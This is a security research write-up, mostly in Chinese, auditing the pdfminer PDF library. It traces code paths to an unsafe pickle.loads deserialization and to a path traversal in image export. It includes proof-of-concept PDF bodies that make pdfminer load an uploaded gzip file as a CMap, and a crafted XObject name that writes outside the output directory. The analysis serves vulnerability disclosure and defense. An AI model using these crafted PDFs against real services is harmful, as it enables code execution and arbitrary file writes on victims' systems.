





Pdfminer Vulnerability Research
Pdfminer code auditing and script development script path： https://github.com/L1nq0/Pdfminer-CMap-Generator
CMapDB Deserialization
Type0 Encoding
cmapdb.py#CMapDB._load_data 调用 pickle.loads
_load_data 传入参数 name 去除空字节，并插入 %s.pickle.gz 中，然后将 cmap_paths 中路径与 filename 拼接；CMAP_PATH 为 cmap 的绝对路径如 /../site-packages/pdfminer/cmap，如果拼接后的文件真实存在，则用 gzip 模块读取并将内容交由 pickle.loads() 反序列化。
要求文件真实存在，文件名写死为 .pickle.gz 后缀且是正确的 gzip 文件体，才会反序列化
class CMapDB:
_cmap_cache: Dict[str, PyCMap] = {}
_umap_cache: Dict[str, List[PyUnicodeMap]] = {}
class CMapNotFound(CMapError):
pass
@classmethod
def _load_data(cls, name: str) -> Any:
name = name.replace("\0", "")
filename = "%s.pickle.gz" % name
log.debug("loading: %r", name)
cmap_paths = (
os.environ.get("CMAP_PATH", "/usr/share/pdfminer/"),
os.path.join(os.path.dirname(__file__), "cmap"),
)
for directory in cmap_paths:
path = os.path.join(directory, filename)
if os.path.exists(path):
gzfile = gzip.open(path)
gzfiles = gzfile.read()
try:
return type(str(name), (), pickle.loads(gzfile.read()))
finally:
gzfile.close()
raise CMapDB.CMapNotFound(name)上游调用路径分析
CMAP_PATH 与 /usr/share/pdfminer/ 基本不可控，无法往其路径写/传文件，要走进 pickle 必须 name 可控。
往前追踪，get_cmap(cls, name: str)方法从缓存中获取 CMap，如果缓存中没有，则调用 _load_data 来加载 cmap 数据
class CMapDB
_cmap_cache: Dict[str, PyCMap] = {}
@classmethod
def get_cmap(cls, name: str) -> CMapBase:
if name == "Identity-H":
return IdentityCMap(WMode=0)
elif name == "Identity-V":
return IdentityCMap(WMode=1)
elif name == "OneByteIdentityH":
return IdentityCMapByte(WMode=0)
elif name == "OneByteIdentityV":
return IdentityCMapByte(WMode=1)
try:
return cls._cmap_cache[name]
except KeyError:
pass
data = cls._load_data(name)
cls._cmap_cache[name] = cmap = PyCMap(name, data)
return cmap再往前，pdffont.py::PDFCIDFont.get_cmap_from_spec() 调用了 get_cmap
class PDFCIDFont(PDFFont):
def get_cmap_from_spec(self, spec: Mapping[str, Any], strict: bool) -> CMapBase:
"""Get cmap from font specification
For certain PDFs, Encoding Type isn't mentioned as an attribute of
Encoding but as an attribute of CMapName, where CMapName is an
attribute of spec['Encoding'].
The horizontal/vertical modes are mentioned with different name
such as 'DLIdent-H/V','OneByteIdentityH/V','Identity-H/V'.
"""
cmap_name = self._get_cmap_name(spec, strict)
try:
return CMapDB.get_cmap(cmap_name)
except CMapDB.CMapNotFound as e:
if strict:
raise PDFFontError(e)
return CMap()cmap_name 属性受 _get_cmap_name() 控制，进入该方法。spec 是一个字典对象，键是 str 类型，值的类型是任意的 Any；
get_cmap_from_spec 会从 spec 中提取 Encoding 键下的 cmap 名称。如果 Encoding 中包含 CMapName 键，则该键的值会作为 cmap 名称传递给 get_cmap 方法。
class PDFCIDFont(PDFFont):
def _get_cmap_name(spec: Mapping[str, Any], strict: bool) -> str:
"""Get cmap name from font specification"""
cmap_name = "unknown" # default value
try:
spec_encoding = spec["Encoding"]
if hasattr(spec_encoding, "name"):
cmap_name = literal_name(spec["Encoding"])
else:
cmap_name = literal_name(spec_encoding["CMapName"])
except KeyError:
if strict:
raise PDFFontError("Encoding is unspecified")
if type(cmap_name) is PDFStream: # type: ignore[comparison-overlap]
cmap_name_stream: PDFStream = cast(PDFStream, cmap_name)
if "CMapName" in cmap_name_stream:
cmap_name = cmap_name_stream.get("CMapName").name
else:
if strict:
raise PDFFontError("CMapName unspecified for encoding")
return IDENTITY_ENCODER.get(cmap_name, cmap_name)此时参数传递从  spec['Encoding'] -> cmap_name -> name，如果 spec 可控则能影响 cmap 打开的文件名。
继续往上追踪，PDFCIDFont 类初始化时调用了 get_cmap_from_spec，__init__初始化定义了一些对象和属性，继续往上追 spec
spec['Subtype']，如果其是 CIDFontType0、CIDFontType2 任意之一，则实例化 PDFCIDFont。关键就在 spec，但其谁控制仍未知，抱着疑惑继续往前追
class PDFPageInterpreter:
def init_resources(self, resources: Dict[object, object]) -> None:
self.resources = resources
self.fontmap: Dict[object, PDFFont] = {}
self.xobjmap = {}
self.csmap: Dict[str, PDFColorSpace] = PREDEFINED_COLORSPACE.copy()
if not resources:
return
def get_colorspace(spec: object) -> Optional[PDFColorSpace]:
if isinstance(spec, list):
name = literal_name(spec[0])
else:
name = literal_name(spec)
if name == "ICCBased" and isinstance(spec, list) and 2 <= len(spec):
return PDFColorSpace(name, stream_value(spec[1])["N"])
elif name == "DeviceN" and isinstance(spec, list) and 2 <= len(spec):
return PDFColorSpace(name, len(list_value(spec[1])))
else:
return PREDEFINED_COLORSPACE.get(name)
for (k, v) in dict_value(resources).items():
log.debug("Resource: %r: %r", k, v)
if k == "Font":
for (fontid, spec) in dict_value(v).items():
objid = None
if isinstance(spec, PDFObjRef):
objid = spec.objid
spec = dict_value(spec)
self.fontmap[fontid] = self.rsrcmgr.get_font(objid, spec)
elif k == "ColorSpace":
for (csid, spec) in dict_value(v).items():
colorspace = get_colorspace(resolve1(spec))
if colorspace is not None:
self.csmap[csid] = colorspace
elif k == "ProcSet":
self.rsrcmgr.get_procset(list_value(v))
elif k == "XObject":
for (xobjid, xobjstrm) in dict_value(v).items():
self.xobjmap[xobjid] = xobjstrm
returnprocess_page() 将 page.resources 丢给 render_contents() 执行，随后 resources 被传递给 init_resources()，这里的 resources 就是被 dict_value 处理的 Font 对象
class PDFPageInterpreter:
def process_page(self, page: PDFPage) -> None:
log.debug("Processing page: %r", page)
(x0, y0, x1, y1) = page.mediabox
if page.rotate == 90:
ctm = (0, -1, 1, 0, -y0, x1)
elif page.rotate == 180:
ctm = (-1, 0, 0, -1, x1, y1)
elif page.rotate == 270:
ctm = (0, 1, -1, 0, y1, -x0)
else:
ctm = (1, 0, 0, 1, -x0, -y0)
self.device.begin_page(page, ctm)
self.render_contents(page.resources, page.contents, ctm=ctm)
self.device.end_page(page)
return
def render_contents(
self,
resources: Dict[object, object],
streams: Sequence[object],
ctm: Matrix = MATRIX_IDENTITY,
) -> None:
log.debug(
"render_contents: resources=%r, streams=%r, ctm=%r", resources, streams, ctm
)
self.init_resources(resources)
self.init_state(ctm)
self.execute(list_value(streams))
return最后追到入口点，一共找到两个
- high_level.py::extract_pages()
- high_level.py::extract_text() 这两个方法都用于从 PDF 文件中提取信息，本身就是 Pdfminer 与外部交互的主要入口，利用链到此到头
def extract_text(
pdf_file: FileOrName,
password: str = "",
page_numbers: Optional[Container[int]] = None,
maxpages: int = 0,
caching: bool = True,
codec: str = "utf-8",
laparams: Optional[LAParams] = None,
) -> str:
"""Parse and return the text contained in a PDF file.
:param pdf_file: Either a file path or a file-like object for the PDF file
to be worked on.
:param password: For encrypted PDFs, the password to decrypt.
:param page_numbers: List of zero-indexed page numbers to extract.
:param maxpages: The maximum number of pages to parse
:param caching: If resources should be cached
:param codec: Text decoding codec
:param laparams: An LAParams object from pdfminer.layout. If None, uses
some default settings that often work well.
:return: a string containing all of the text extracted.
"""
if laparams is None:
laparams = LAParams()
with open_filename(pdf_file, "rb") as fp, StringIO() as output_string:
fp = cast(BinaryIO, fp) # we opened in binary mode
rsrcmgr = PDFResourceManager(caching=caching)
device = TextConverter(rsrcmgr, output_string, codec=codec, laparams=laparams)
interpreter = PDFPageInterpreter(rsrcmgr, device)
for page in PDFPage.get_pages(
fp,
page_numbers,
maxpages=maxpages,
password=password,
caching=caching,
):
interpreter.process_page(page)
return output_string.getvalue()
def extract_pages(
pdf_file: FileOrName,
password: str = "",
page_numbers: Optional[Container[int]] = None,
maxpages: int = 0,
caching: bool = True,
laparams: Optional[LAParams] = None,
) -> Iterator[LTPage]:
"""Extract and yield LTPage objects
:param pdf_file: Either a file path or a file-like object for the PDF file
to be worked on.
:param password: For encrypted PDFs, the password to decrypt.
:param page_numbers: List of zero-indexed page numbers to extract.
:param maxpages: The maximum number of pages to parse
:param caching: If resources should be cached
:param laparams: An LAParams object from pdfminer.layout. If None, uses
some default settings that often work well.
:return: LTPage objects
"""
if laparams is None:
laparams = LAParams()
with open_filename(pdf_file, "rb") as fp:
fp = cast(BinaryIO, fp) # we opened in binary mode
resource_manager = PDFResourceManager(caching=caching)
device = PDFPageAggregator(resource_manager, laparams=laparams)
interpreter = PDFPageInterpreter(resource_manager, device)
for page in PDFPage.get_pages(
fp,
page_numbers,
maxpages=maxpages,
password=password,
caching=caching,
):
interpreter.process_page(page)
layout = device.get_result()
yield layout溯源整个流程，从 extract_ 双方法开始。PDFPage.get_pages() 会通过 PDFParser 解析 PDF 文件，并生成一个 PDFDocument 对象。这个对象包含了文档的结构和元数据。然后迭代文档中的每一页，并调用 create_pages(doc) 来生成具体的页面对象。然后提取的 PDF 元数据交给下游方法处理
class PDFPage:
def get_pages(
cls,
fp: BinaryIO,
pagenos: Optional[Container[int]] = None,
maxpages: int = 0,
password: str = "",
caching: bool = True,
check_extractable: bool = False,
) -> Iterator["PDFPage"]:
parser = PDFParser(fp)
doc = PDFDocument(parser, password=password, caching=caching)
if not doc.is_extractable:
if check_extractable:
error_msg = "Text extraction is not allowed: %r" % fp
raise PDFTextExtractionNotAllowed(error_msg)
else:
warning_msg = (
"The PDF %r contains a metadata field "
"indicating that it should not allow "
"text extraction. Ignoring this field "
"and proceeding. Use the check_extractable "
"if you want to raise an error in this case" % fp
)
log.warning(warning_msg)
for pageno, page in enumerate(cls.create_pages(doc)):
if pagenos and (pageno not in pagenos):
continue
yield page
if maxpages and maxpages <= pageno + 1:
break利用链
high_level.py::extract_pages()/extract_text()
pdfinterp.py::PDFPageInterpreter.process_page(page)
pdfinterp.py::PDFPageInterpreter.render_contents(resources, contents)
pdfinterp.py::PDFPageInterpreter.init_resources(resources)
pdfinterp.py::PDFResourceManager.get_font(objid, spec)
pdffont.py::PDFCIDFont.__init__(rsrcmgr, spec, strict)
pdffont.py::PDFCIDFont.get_cmap_from_spec(spec, strict)
cmapdb.py::CMapDB.get_cmap(cmap_name)
cmapdb.py::CMapDB._load_data(name)将 PDF Font 对象关键字段定义好，Type = Type0、Subtype = CIDFontType0 or CIDFontType2、Encoding = GZIP 文件绝对路径，同时绝对路径中 /需要替换为 #2F，并使用 extract_pages()/extract_text() 操作 PDF 文件，Pdfminer 就会读取 GZIP 内容并反序列化
PDF 格式体利用示例
%PDF-1.4
%E2%E3%CF%D3
1 0 obj
<< /Type /Catalog /Pages 2 0 R >>
endobj
2 0 obj
<< /Type /Pages /Count 1 /Kids [3 0 R] >>
endobj
3 0 obj
<< /Type /Page /Parent 2 0 R /MediaBox [0 0 612 792] /Resources << /Font << /F1 5 0 R >> >> /Contents 4 0 R >>
endobj
4 0 obj
<< /Length 22 >>
stream
BT /F1 12 Tf (A) Tj ET
endstream
endobj
5 0 obj
<< /Type /Font /Subtype /Type0 /BaseFont /Identity-H /Encoding /app/uploads/l1 /DescendantFonts [6 0 R] >>
endobj
6 0 obj
<< /Type /Font /Subtype /CIDFontType2 /BaseFont /Dummy /CIDSystemInfo << /Registry (Adobe) /Ordering (Identity) /Supplement 0 >> >>
endobj
xref
0 7
0000000000 65535 f
0000000010 00000 n
0000000077 00000 n
0000000176 00000 n
0000000273 00000 n
0000000325 00000 n
0000000375 00000 n
trailer
<< /Size 7 /Root 1 0 R >>
startxref
410
%%EOFToUnicode usecmap
上面是 Type0 Font Encoding 的攻击路径，pickle.loads 还有第二条触发链：ToUnicode usecmap。 PDFSimpleFont 初始化时会处理 /ToUnicode 字段，ToUnicode 是 PDF 中用于字符编码映射的 CMap 流。pdffont.py::PDFSimpleFont.init() 在 Line 970 读取 ToUnicode 流内容并交给 CMapParser 解析
class PDFSimpleFont(PDFFont):
def __init__(
self,
descriptor: PDFObjRef,
widths: object,
spec: MutableMapping[str, Any],
) -> None:
# ...
if "ToUnicode" in spec:
strm = stream_value(spec["ToUnicode"])
self.unicode_map = FileUnicodeMap()
CMapParser(self.unicode_map, BytesIO(strm.get_data())).run() # Line 970CMapParser 继承自 PSStackParser，用来解析 PostScript 格式的 CMap 数据。在解析过程中遇到关键字时会调 do_keyword() 处理
class CMapParser(PSStackParser[PSKeyword]):
def __init__(self, cmap: CMapBase, fp: BinaryIO) -> None:
PSStackParser.__init__(self, fp)
self.cmap = cmap
# ...
def run(self) -> None:
try:
self.nextobject()
except PSEOF:
pass
def do_keyword(self, pos: int, token: PSKeyword) -> None:
# ...
if token is self.KEYWORD_USECMAP:
try:
((_, cmapname),) = self.pop(1) # 从栈中弹出 CMap 名称
self.cmap.use_cmap(CMapDB.get_cmap(literal_name(cmapname))) # Line 349: 触发点
except PSSyntaxError:
pass
except CMapDB.CMapNotFound:
pass当 ToUnicode 流中包含 usecmap 关键字时，CMapParser 会从操作数栈弹出 CMap 名称并调用 CMapDB.get_cmap()，后续流程与 Type0 Encoding 路径相同，最终触发 pickle.loads。 调试日志显示整个解析过程
DEBUG:pdfminer.pdfinterp:get_font: create: objid=4, spec={
'Type': /'Font',
'Subtype': /'Type1',
'BaseFont': /'Helvetica',
'ToUnicode': <PDFObjRef:6>
}
DEBUG:pdfminer.psparser:nexttoken: (0, /'CIDInit')
DEBUG:pdfminer.psparser:nexttoken: (9, /'ProcSet')
DEBUG:pdfminer.psparser:nexttoken: (18, /b'findresource')
DEBUG:pdfminer.psparser:do_keyword: pos=18, token=/b'findresource'
DEBUG:pdfminer.psparser:nexttoken: (31, /b'begin')
DEBUG:pdfminer.psparser:do_keyword: pos=31, token=/b'begin'
DEBUG:pdfminer.psparser:nexttoken: (37, /'/proc/self/cwd/uploads/l1')
DEBUG:pdfminer.psparser:nexttoken: (83, /b'usecmap')
DEBUG:pdfminer.psparser:do_keyword: pos=83, token=/b'usecmap',
stack=[..., (37, /'/proc/self/cwd/uploads/l1')]
DEBUG:pdfminer.cmapdb:loading: '/proc/self/cwd/uploads/l1'PSStackParser 逐个读取 ToUnicode 流中的 token，遇到 usecmap 关键字时，栈顶是之前 push 的 CMap 路径 /proc/self/cwd/uploads/l1，这个路径被传给 CMapDB.get_cmap()，触发 pickle.loads。
利用链
high_level.py::extract_pages()/extract_text()
pdfinterp.py::PDFPageInterpreter.process_page(page)
pdfinterp.py::PDFPageInterpreter.render_contents(resources, contents)
pdfinterp.py::PDFPageInterpreter.init_resources(resources)
pdfinterp.py::PDFResourceManager.get_font(objid, spec)
pdffont.py::PDFType1Font.__init__(rsrcmgr, spec, strict)
pdffont.py::PDFSimpleFont.__init__(descriptor, widths, spec)
cmapdb.py::CMapParser(unicode_map, stream).run()
cmapdb.py::CMapParser.nextobject()
cmapdb.py::CMapParser.do_keyword(KEYWORD_USECMAP)
cmapdb.py::CMapDB.get_cmap(cmap_name)
cmapdb.py::CMapDB._load_data(name)PDF 格式体利用示例
%PDF-1.4
%E2%E3%CF%D3
1 0 obj
<< /Type /Catalog /Pages 2 0 R >>
endobj
2 0 obj
<< /Type /Pages /Count 1 /Kids [3 0 R] >>
endobj
3 0 obj
<< /Type /Page /Parent 2 0 R /MediaBox [0 0 612 792] /Resources << /Font << /F1 4 0 R >> >> /Contents 5 0 R >>
endobj
4 0 obj
<< /Type /Font /Subtype /Type1 /BaseFont /Helvetica /ToUnicode 6 0 R >>
endobj
5 0 obj
<< /Length 42 >>
stream
BT
/F1 12 Tf
50 700 Td
(Exploit PDF) Tj
ET
endstream
endobj
6 0 obj
<< /Length 95 >>
stream
/CIDInit /ProcSet findresource begin
/#2Fproc#2Fself#2Fcwd#2Fuploads#2Fl1 usecmap
end
endstream
endobj
xref
0 7
0000000000 65535 f
0000000015 00000 n
0000000064 00000 n
0000000121 00000 n
0000000259 00000 n
0000000355 00000 n
0000000447 00000 n
trailer
<< /Size 7 /Root 1 0 R >>
startxref
592
%%EOF两条链子不会同时触发，如果走链一，第一次 pickle.loads 执行后，返回的对象没有 CODE2CID 属性，导致 AttributeError，异常向上传播，PDFCIDFont.init() 失败，不会执行到 Line 1113 的 ToUnicode 处理。
Path Traversal in ImageWriter
在看 Pdfminer 的图片提取与写入功能时发现的逻辑缺陷，虽然没软用简单扯一嘴 当使用 Pdfminer 提取 PDF 中的图片时，通常可以这样调用
for page in extract_pages(pdf_file):
for element in page:
if isinstance(element, LTFigure):
for item in element:
if isinstance(item, LTImage):
result = writer.export_image(item)Pdfminer 会将 PDF 中的图片保存到指定目录。但问题来了，保存时文件名经过怎样的处理呢？
通过阅读源码，我发现了关键的逻辑在ImageWriter.create_unique_image_name中：
def _create_unique_image_name(self, image: LTImage, ext: str) -> Tuple[str, str]:
name = image.name + ext
path = os.path.join(self.outdir, name)
img_index = 0
while os.path.exists(path):
name = "%s.%d%s" % (image.name, img_index, ext)
path = os.path.join(self.outdir, name)
img_index += 1
return name, path_create_unique_image_name 在处理 PDF 文件中的图片资源时，直接使用了 XObject 的名称作为输出文件名的一部分，与输出路径 outdir 拼接形成新路径，没有做精细校验，与上面分析类似 PDF 可控则 image.name 可控
Pdfminer 解析并创建 LTImage 对象，其 name 属性赋值为指定路径，export_image 是操作入口
class ImageWriter:
def export_image(self, image: LTImage) -> str:
"""Save an LTImage to disk"""
(width, height) = image.srcsize
filters = image.stream.get_filters()
if filters[-1][0] in LITERALS_DCT_DECODE:
name = self._save_jpeg(image)
elif filters[-1][0] in LITERALS_JPX_DECODE:
name = self._save_jpeg2000(image)
elif self._is_jbig2_iamge(image):
name = self._save_jbig2(image)
elif image.bits == 1:
name = self._save_bmp(image, width, height, (width + 7) // 8, image.bits)
elif image.bits == 8 and (
LITERAL_DEVICE_RGB in image.colorspace
or LITERAL_INLINE_DEVICE_RGB in image.colorspace
):
name = self._save_bmp(image, width, height, width * 3, image.bits * 3)
elif image.bits == 8 and (
LITERAL_DEVICE_GRAY in image.colorspace
or LITERAL_INLINE_DEVICE_GRAY in image.colorspace
):
name = self._save_bmp(image, width, height, width, image.bits)
elif len(filters) == 1 and filters[0][0] in LITERALS_FLATE_DECODE:
name = self._save_bytes(image)
else:
name = self._save_raw(image)
return name获取到文件名及路径后，Pdfminer 直接用 path 路径将写入文件 fp.write，假设 path 为 /x/x/uploads/../../../tmp/l1.jpg，就能进行跨目录写文件
def _save_jpeg(self, image: LTImage) -> str:
"""Save a JPEG encoded image"""
data = image.stream.get_data()
name, path = self._create_unique_image_name(image, ".jpg")
with open(path, "wb") as fp:
if LITERAL_DEVICE_CMYK in image.colorspace:
try:
from PIL import Image, ImageChops # type: ignore[import]
except ImportError:
raise ImportError(PIL_ERROR_MESSAGE)
ifp = BytesIO(data)
i = Image.open(ifp)
i = ImageChops.invert(i)
i = i.convert("RGB")
i.save(fp, "JPEG")
else:
fp.write(data)
return name如果控制 PDF 内的 XObject 名称，是否就可控写入？我构造一个恶意 PDF 来完成构想
3 0 obj
<<
/Type /Page
/Resources <<
/XObject <<
/#2E#2E#2F#2E#2E#2F#2E#2E#2F#2E#2E#2Ftmp#2Fpwned 4 0 R
>>
>>
>>
...path 成功控制为指定内容

name, path = self._create_unique_image_name(image, ".jpg")
=>
def _create_unique_image_name(self, image: LTImage, ext: str) -> Tuple[str, str]:
name = image.name + ext
path = os.path.join(self.outdir, name)
img_index = 0
while os.path.exists(path):
name = "%s.%d%s" % (image.name, img_index, ext)
path = os.path.join(self.outdir, name)
img_index += 1
return name, path
...
@staticmethod
def _is_jbig2_iamge(image: LTImage) -> bool:
filters = image.stream.get_filters()
for filter_name, params in filters:
if filter_name in LITERALS_JBIG2_DECODE:
return True
return False